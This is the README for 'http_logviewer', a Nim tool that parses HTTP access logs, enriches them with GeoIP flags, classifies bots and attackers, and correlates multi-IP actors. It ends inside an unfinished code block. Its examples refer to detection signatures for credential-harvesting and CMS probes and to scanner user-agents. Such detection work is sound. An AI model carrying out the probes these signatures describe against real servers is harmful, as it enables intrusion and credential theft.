







# http_logviewer

High-performance HTTP log viewer and rogue bot detector written in Nim. `http_logviewer` ingests standard HTTP access logs (Common Log Format, Combined Nginx/Apache, Caddy, JSON) and provides real-time enriched terminal output with threat intelligence, country flags, background-colored status badges, and distributed multi-IP actor correlation.

## Key Features

- **Country Flag & GeoIP Enrichment**: Automatically resolves IP addresses to country codes, full country names, and Unicode regional indicator flag emojis (e.g., `🇺🇸 US`, `🇩🇪 DE`, `🇳🇱 NL`, `🏠 LAN`).
- **Visitor Intent Classification**: Instantly distinguishes legitimate human visitors (`REAL_USER`) from verified search engines (`VERIFIED_BOT`), friendly crawlers (`FRIENDLY_CRAWLER`), commercial scrapers (`COMMERCIAL_BOT`), suspicious scanners (`SUSPICIOUS`), and malicious vulnerability probes (`BAD_ACTOR_HACKER`).
- **High-Visibility HTTP Status Badges**: Background-colored ANSI styling to make errors and anomalies instantly identifiable in scrolling logs (bold white on red for `404`, magenta/red for `500`/`502`, yellow for `3xx`, green for `2xx`).
- **Multi-IP Distributed Actor Correlation**: Correlates requests originating from rotating IP addresses and proxies that belong to the exact same botnet campaign or attacker using temporal heuristics, User-Agent telemetry, and probe sequence fingerprinting.
- **Zero External Runtime Dependencies**: Built entirely on Nim's high-performance standard library with low memory overhead and $O(1)$ streaming capability.

---

## Platform Support

`http_logviewer` is tested and supported on:
- **Linux**: Standard POSIX terminal with ANSI/VT220 true-color support.
- **Windows**: Windows Terminal and PowerShell (ANSI escape code support required).
- **macOS**: Terminal.app, iTerm2, and modern POSIX terminal emulators.

---

## Requirements

- **Nim**: Version 2.2.10 or newer (tested with ARC/ORC memory management).
- **Dependencies**: None required for core runtime and CLI.
- **Asciinema & Agg** (Optional development tooling): For recording terminal asciicasts and rendering documentation GIFs.

---

## Architecture Overview

```
                      +-----------------------------+
                      |   HTTP Log Source           |
                      | (File, Pipe STDIN, tail -f) |
                      +--------------+--------------+
                                     |
                                     v
                      +-----------------------------+
                      |  1. Ingestion & Parser      |
                      |  (CLF, Combined, JSON)      |
                      +--------------+--------------+
                                     |
                                     v
                      +-----------------------------+
                      |  2. GeoIP & ASN Enrichment  |
                      |  (ISO Code, Flag Emoji)     |
                      +--------------+--------------+
                                     |
                                     v
                      +-----------------------------+
                      |  3. Threat Classifier       |
                      |  (OWASP Top 10, Scanners)   |
                      +--------------+--------------+
                                     |
                                     v
                      +-----------------------------+
                      |  4. Actor Correlator        |
                      |  (Multi-IP Cluster Engine)  |
                      +--------------+--------------+
                                     |
                                     v
                      +-----------------------------+
                      |  5. Terminal Renderer       |
                      |  (ANSI Badges, Tables, TUI) |
                      +-----------------------------+
```

---

## Table of Contents

- [Platform Support](#platform-support)
- [Requirements](#requirements)
- [Architecture Overview](#architecture-overview)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [API Overview](#api-overview)
  - [Core Log Entry Models](#1-core-log-entry-models)
  - [Threat and Actor Domain Models](#2-threat-and-actor-domain-models)
  - [Configuration and State Models](#3-configuration-and-state-models)
  - [Log Format Detection & Parsers](#4-log-format-detection--parsers)
  - [Streaming Ingestion & Pipe Support](#5-streaming-ingestion--pipe-support)
  - [Parsing Fault-Tolerance & Edge Cases](#6-parsing-fault-tolerance--edge-cases)
  - [IP-to-Country Lookup & GeoIP Enrichment](#7-ip-to-country-lookup--geoip-enrichment)
  - [Unicode Regional Indicator Flags & Country Metadata](#8-unicode-regional-indicator-flags--country-metadata)
  - [Bogon, Private, and Loopback IP Handling](#9-bogon-private-and-loopback-ip-handling)
  - [Attack Signature & Payload Detection](#10-attack-signature--payload-detection)
  - [User-Agent Taxonomy & Bot Identification](#11-user-agent-taxonomy--bot-identification)
  - [Behavioral Heuristics & Anomaly Scoring](#12-behavioral-heuristics--anomaly-scoring)
  - [Actor Fingerprint Synthesis & Multi-IP Correlation](#13-actor-fingerprint-synthesis--multi-ip-correlation)
  - [Multi-IP Probe Sequence Correlation](#14-multi-ip-probe-sequence-correlation)
- [Examples](#examples)
- [Development and Documentation](#development-and-documentation)
- [Attribution and License](#attribution-and-license)

---

## Installation

Clone the repository and build using Nimble:

```bash
git clone https://github.com/titanomachy/http-logviewer.git
cd http-logviewer
nimble build
```

The resulting binary will be placed inside `build/http_logviewer`. All compiler intermediate files are isolated to `build/nimcache/`.

---

## Quick Start

Execute the pre-built test suite to verify all modules:

```bash
nimble test
```

To run a standalone example demonstrating domain model capabilities:

```bash
nim r --path:src examples/threat_and_actor_models.nim
```

---

## API Overview

The library exposes clean, type-safe Nim APIs organized into modular layers:

| Component | Source Module | Primary Types & Concepts | Description |
| :--- | :--- | :--- | :--- |
| [Log Entry Models](#1-core-log-entry-models) | `http_logviewer/core/types` | `HttpLogEntry`, `HttpMethod` | Normalized representation of parsed HTTP log lines, status codes, and HTTP verbs |
| [Threat & Actor Models](#2-threat-and-actor-domain-models) | `http_logviewer/core/types` | `ActorCategory`, `ThreatFlag`, `ThreatProfile`, `ActorCluster`, `GeoLocation`, `EnrichedLogRecord` | Threat intelligence scoring, atomic exploit flags, bot detection, and multi-IP correlation clusters |
| [Configuration & State Models](#3-configuration-and-state-models) | `http_logviewer/core/config`, `http_logviewer/cli/args` | `ViewerConfig`, `FilterCriteria`, `OutputFormat`, `LogFormat`, `ColorMode`, `CliOptions` | Runtime session configuration, granular traffic filtering criteria, format negotiation, and CLI option mapping |
| [Log Format Detection & Parsers](#4-log-format-detection--parsers) | `http_logviewer/parser/formats` | `parseClfLine`, `parseCombinedLine`, `parseNginxLine`, `parseJsonLine`, `parseLine`, `detectLogFormat`, `HttpStatusClass` | High-performance low-allocation parsers for W3C CLF, Nginx/Apache Combined, Caddy JSON, format auto-detection, and HTTP status code token classification |
| [Streaming Ingestion & Pipe Support](#5-streaming-ingestion--pipe-support) | `http_logviewer/parser/engine` | `StreamReader`, `readLineFollow`, `streamLogLines`, `streamRawLines`, `benchmarkParsingThroughput` | Low-allocation streaming ingestion, live file tailing (`-f`), transparent `.log.gz` decompression, and $O(1)$ memory bounds |
| [Parsing Fault-Tolerance & Edge Cases](#6-parsing-fault-tolerance--edge-cases) | `http_logviewer/parser/formats`, `http_logviewer/parser/engine` | `sanitizeUtf8`, `sanitizeControlChars`, `cleanIpAddress`, `normalizeLogDateString`, `ParsingDiagnostics` | Sanitization of invalid UTF-8 bytes and ANSI escapes, interior quote recovery, IPv4/IPv6 port stripping, multi-locale timestamps, and streaming diagnostics |
| [IP-to-Country Lookup & GeoIP](#7-ip-to-country-lookup--geoip-enrichment) | `http_logviewer/enrichment/geoip`, `http_logviewer/enrichment/flags` | `GeoIpProvider`, `GeoIpEngine`, `MmdbGeoIpProvider`, `CidrGeoIpProvider`, `LruCache`, `isoToFlagEmoji` | High-performance IP geolocation, offline MMDB parser, fallback CIDR database, LRU memory cache, and automatic database discovery |
| [Unicode Flags & Country Metadata](#8-unicode-regional-indicator-flags--country-metadata) | `http_logviewer/enrichment/flags` | `isoToFlagEmoji`, `getCountryName`, `IsoCountryCodes`, `flagTerminalFallback`, `formatCountryFlag`, `formatCountryBadge` | Algorithmic ISO-3166-1 flag emoji generation, 249 English country names, special pseudo-code mapping (EU, AP, A1, A2, T1), and terminal ASCII fallback |
| [Bogon & Private IPs](#9-bogon-private-and-loopback-ip-handling) | `http_logviewer/enrichment/bogon` | `isRfc1918Private`, `isLoopbackIp`, `isLinkLocalIp`, `isCgnatIp`, `isUniqueLocalIp`, `isMulticastIp`, `isBogonIp`, `classifyIpSubnet`, `formatLocalTrafficMarker`, `makeEnrichedPrivateLocation` | Subnet classification, RFC 1918 private IPv4 ranges, loopback/localhost, link-local, carrier-grade NAT, multicast, bogon/reserved networks, and local traffic markers (`🏠 Local / Private LAN`) |
| [Attack Signatures & Payloads](#10-attack-signature--payload-detection) | `http_logviewer/analyzer/signatures` | `SensitiveFileSignatures`, `CmsExploitSignatures`, `TraversalPatterns`, `SqlInjectionPatterns`, `CommandInjectionPatterns`, `Log4jJndiPatterns`, `scanAttackSignatures`, `analyzeAttackPayload` | Hostile attack signature databases, multi-pass URL decoding, OWASP Top 10 vectors, sensitive config probes, CMS entrypoints, SQLi, RCE, and Log4Shell detection |
| [User-Agent Taxonomy](#11-user-agent-taxonomy--bot-identification) | `http_logviewer/analyzer/useragents` | `VerifiedSearchEngineBots`, `CommercialCrawlerBots`, `OffensiveScannerUas`, `GenericHttpLibraries`, `classifyUserAgent`, `detectUserAgentAnomalies`, `UserAgentClassification` | High-accuracy bot identification, verified search engines, commercial SEO crawlers, offensive security scanners, generic HTTP scripting libraries, and User-Agent anomaly detection |
| [Behavioral Heuristics & Anomaly Scoring](#12-behavioral-heuristics--anomaly-scoring) | `http_logviewer/analyzer/classifier` | `VisitorBehaviorTracker`, `VisitorStats`, `evaluateThreat`, `staticAssetRatio`, `calculate404Velocity`, `evaluateMethodAnomaly`, `scoreToActorCategory` | Heuristic scoring engine (0-100), static asset ratios, 404 velocity, HTTP method anomaly scoring, and intent categorization |
| [Actor Fingerprint Synthesis](#13-actor-fingerprint-synthesis--multi-ip-correlation) | `http_logviewer/analyzer/correlator` | `ActorFingerprint`, `generateProbeFingerprint`, `generateActorFingerprint`, `normalizePathPattern`, `hashPathSequence`, `normalizeQueryParams`, `jaccardSimilarity`, `extractSessionTokens` | Deterministic behavioral fingerprints, structural path pattern sequences, cache-buster parameter normalization, and Jaccard similarity sets |
| [Multi-IP Probe Correlation](#14-multi-ip-probe-sequence-correlation) | `http_logviewer/analyzer/correlator` | `ActorClusterTable`, `SlidingWindowTracker`, `RecentProbe`, `ClusterRiskMetrics`, `newActorClusterTable`, `correlateRecord`, `calculateClusterMetrics`, `detectProxyRotation`, `pruneExpired` | In-memory sliding time window tracker (5-60 min), probe sequence correlation, residential proxy rotation detection, dynamic ActorClusterTable registry, and cluster-level risk metrics |
| Error Hierarchy | `http_logviewer/core/errors` | `HttpLogViewerError`, `ParseError`, `ThreatAnalysisError`, `ConfigError` | Robust exception hierarchy derived from `CatchableError` |

---

### 1. Core Log Entry Models

Provides normalized representation of parsed HTTP requests, method parsing, JSON serialization, and set/table interoperability:

```nim
import std/times
import http_logviewer/core/types

let entry = initHttpLogEntry(
  clientIp = "192.168.1.100",
  timestamp = now().utc,
  `method` = HttpGet,
  path = "/index.html",
  statusCode = 200,
  bytesSent = 4096,
  referer = "https://example.com",
  userAgent = "Mozilla/5.0"
)

echo "Single-line format: ", entry
echo entry.pretty()
```

Compile and run this example:
```bash
nim r --path:src examples/log_entry_models.nim
```

---

### 2. Threat and Actor Domain Models

Enables classification of visitor intent, tracking of atomic attack indicators (e.g. SQLi, CMS exploits, path traversal), and correlation of disparate IP addresses belonging to the same distributed botnet:

```nim
import std/[times, sets, options, json]
import http_logviewer/core/types

# 1. Threat scoring
let threat = initThreatProfile(
  score = 92,
  category = CategoryBadActorHacker,
  flags = {ThreatCmsExploit, ThreatSensitiveFile},
  matchedSignatures = @["wp_login_probe", "env_credential_harvest"]
)
assert threat.isHacker()

# 2. Geolocation with flag emojis
let geo = initGeoLocation(
  ip = "185.220.101.5",
  countryCode = "NL",
  countryName = "Netherlands",
  flagEmoji = "🇳🇱"
)

# 3. Multi-IP Actor Clustering
let cluster = newActorCluster(clusterId = "ACTOR-WP-BOTNET", primaryUa = "Masscan/1.3")
let log1 = initHttpLogEntry(clientIp = "185.220.101.5", `method` = HttpPost, path = "/wp-login.php", statusCode = 404)
cluster.addEntry(log1, score = 80, category = CategoryBadActorHacker, flags = {ThreatCmsExploit})

# 4. Enriched pipeline event
let enriched = initEnrichedLogRecord(log1, geo, threat, some(cluster.clusterId))
echo enriched
```

#### Terminal Demonstration

The recording below illustrates visitor categorization, threat profiling, multi-IP cluster tracking, and JSON serialization in action:


> *Source session recording:* [`docs/recordings/threat_and_actor_models.cast`](docs/recordings/threat_and_actor_models.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/threat_and_actor_models.nim
```

---

### 3. Configuration and State Models

Manages runtime execution modes, input/output format negotiation, multi-dimensional traffic filtering criteria, CLI option parsing, and bidirectional JSON configuration serialization:

```nim
import std/options
import http_logviewer/core/[types, config]
import http_logviewer/cli/args

# 1. Production defaults
let cfg = defaultViewerConfig()
assert cfg.logFilePath == "-"
assert cfg.colorOutput == true
assert cfg.outputFormat == FormatStreamTable

# 2. Granular filtering criteria
let criteria = initFilterCriteria(
  minThreatScore = 50,
  statusWhitelist = [401, 403, 404, 500],
  countryWhitelist = ["US", "DE", "NL"],
  categories = {CategoryBadActorHacker, CategorySuspicious}
)
assert criteria.allowsStatus(404)
assert not criteria.allowsStatus(200)

# 3. CLI command-line parsing and mapping to ViewerConfig
let cliArgs = ["-f", "--filter=hacker", "--min-score=70", "--group-actors", "/var/log/nginx/access.log"]
let runtimeCfg = parseCommandLine(cliArgs)
assert runtimeCfg.follow == true
assert runtimeCfg.minThreatScore == 70
assert runtimeCfg.enableGrouping == true
```

#### Terminal Demonstration

The recording below illustrates runtime configuration inspection, filter criteria evaluation, CLI flag parsing, JSON round-trip serialization, and validation boundary enforcement in action:


> *Source session recording:* [`docs/recordings/configuration_and_state_models.cast`](docs/recordings/configuration_and_state_models.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/configuration_and_state_models.nim
```

---

### 4. Log Format Detection & Parsers

High-performance zero-allocation log parsers supporting W3C Common Log Format (CLF), Nginx and Apache Combined format, structured JSON access logs (Nginx flat and Caddy nested schemas), format auto-detection, and HTTP status code classification:

```nim
import std/options
import http_logviewer/core/[types, config]
import http_logviewer/parser/formats

# 1. Format auto-detection across sample lines
let line = "192.168.1.100 - - [10/Oct/2026:13:55:36 +0200] \"GET /index.html HTTP/1.1\" 200 2326 \"https://example.com\" \"Mozilla/5.0\""
let detectedFormat = detectLogFormatLine(line)
assert detectedFormat == LogFormatCombined

# 2. Parsing Combined format (with Referer and User-Agent)
var entry: HttpLogEntry
assert parseCombinedLine(line, entry)
assert entry.clientIp == "192.168.1.100"
assert entry.statusCode == 200
assert entry.referer == "https://example.com"
assert entry.userAgent == "Mozilla/5.0"

# 3. Parsing structured JSON access logs (supporting Caddy nested and Nginx flat schemas)
let jsonLine = """{"client_ip": "1.2.3.4", "timestamp": "2026-10-10T13:55:36Z", "method": "GET", "uri": "/api/v1", "status": 200, "bytes": 1024}"""
var jsonEntry: HttpLogEntry
assert parseJsonLine(jsonLine, jsonEntry)
assert jsonEntry.clientIp == "1.2.3.4"

# 4. Status code classification and canonical descriptions
assert statusClass(404) == StatusClientError
assert isClientError(404)
assert statusDescription(404) == "Not Found"

# 5. Unified line parser with automatic format detection
var autoEntry: HttpLogEntry
assert parseLine(line, autoEntry, LogFormatAuto)
assert autoEntry.statusCode == 200
```

#### Terminal Demonstration

The recording below illustrates format auto-detection, Common Log Format (CLF) parsing, Combined format parsing with referer/user-agent extraction, Caddy JSON parsing, and HTTP status classification in action:


> *Source session recording:* [`docs/recordings/format_detection_and_parsing.cast`](docs/recordings/format_detection_and_parsing.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
